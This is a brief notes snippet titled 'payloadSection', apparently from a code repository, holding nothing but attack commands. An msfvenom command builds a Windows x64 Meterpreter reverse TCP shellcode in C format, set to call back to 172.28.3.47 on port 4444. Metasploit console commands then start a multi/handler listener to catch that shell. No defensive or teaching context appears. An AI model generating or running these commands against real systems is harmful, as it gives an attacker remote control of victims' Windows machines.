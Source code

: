 # payloadSection

msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=172.28.3.47 lport=4444 -f c

msfconsole
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set lhost 172.28.3.47
set lport 4444
run
